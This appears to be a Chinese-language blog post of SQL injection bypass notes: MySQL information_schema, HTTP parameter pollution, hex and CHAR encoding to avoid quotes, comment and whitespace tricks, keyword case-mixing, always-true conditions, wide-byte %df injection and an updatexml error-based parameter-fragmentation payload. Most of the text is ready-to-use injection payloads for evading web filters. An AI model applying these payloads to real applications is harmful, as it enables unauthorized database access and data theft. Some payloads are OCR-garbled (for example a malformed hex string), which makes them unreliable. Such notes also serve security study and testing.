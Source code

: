 ```yaml
---
published: true
layout: post
tags:
  - sae
categories: null
description: 本文章将sql注入的绕过方法
---
```

## mysql中重要的数据库和表单：
Information_schema数据库：作用是保存所有数据库信息。
information_schema.tables存储了数据表的元数据信息，下面对常用的字段进行介绍：
* table_schema: 记录数据库名；
* table_name: 记录数据表名；
* engine : 存储引擎；
* table_rows: 关于表的粗略行估计；
* data_length : 记录表的大小（单位字节）；
* index_length : 记录表的索引的大小；
* row_format: 可以查看数据表是否压缩过；
Limit num,num2;从num开始读取num2条信息。//limit 0，1读取第一条信息  
服务器端运行tomcat（jsp）和apache（php）服务器，一个用于过滤一个用于提供服务.使用HPP(http参数污染攻击)绕过，提交index.jsp?id=1&id=playload请求

## sql注入小技巧：
查找有用的列名 
	where column_name LIKE ‘%PASS%’  
    
遇到单引号转译，可以考虑使用16进制绕过 

	table_name=’users ’——》table_name=0×757365727  
避开过滤
  输入单引号没反应，尝试“  
  
单引号被阻止：  

1、where name=‘Marcus’ 可以使用ascii 替代字符串不必使用单引号 ‘a’->CHR(97)   


2、在mysql中连接字符串是CONCAT函数select name=concat(CHAR(97),char(114))，oracle中 select name=chr(97)||chr(114)， Ms-SQL中 select name=char(97)+char(114)    

    
--注释符被阻止时考虑闭合：  

     ‘ or 1=1 - - 可以使用  ‘ or ‘a’ =‘a   
     
单纯的闭合  

	‘ playload and '

=号 被禁止： 

   使用<>（不等于）例：  
    	!(table_schema<>database())
        
关键字过滤：  
	
    select 被过滤。使用 SeLEct selselectect %53%45%4c%45%54  

                                                                    
空格过滤：  
  
    1、使用注释 /*foo*/   :  select/*foo*/uername,password/*foo*/from 
    2、在mysql中 注释还能插入关键字中避开过滤，se/*foo*/lect
    3、 %0b TAB键（垂直）%a0 空格  %09 TAB键（水平）%0a 新建一行 %0c 新的一页 %0d return功能 

  在mysql里面，在用作布尔型判断时，以数字开头的字符串会被当做整型数。要注意的是这种情况是必须要有单引号括起来的，比如password=‘xxx’ or ‘1xxxxxxxxx’，那么就相当于password=‘xxx’ or 1  ，也就相当于password=‘xxx’ or true。只有数字的话，就不需要单引号，比如password=‘xxx’ or 1，那么返回值也是true  
  

在url中使用--注释时，可能会需要使用--+才能成功注释  


and或者or被完全过滤时，可以使用逻辑运算符 && ，||（要转换为url编码&-》%26）

当 ‘ 被转译为 \’ 时可以考虑宽字节注入：  
    发生的位置就是PHP发送请求到MYSQL时字符集使用character_set_client设置值进行了一次编码(即宽字节 GBK字符集)由于编码范围的问题，使用%df就会拼接%5c(\),从而绕过。在post输入框中%df不会自动转码，需手动输入�

HPF(http分割注入)：  
    post请求中username参数可以使用updatexml等报错函数，但却不能用（）但password可以用（），这样就可以进行构造
    username=1′and updatexml/*&password=*/(1,concat(0x24,(select database()),0x24),1) and ‘1

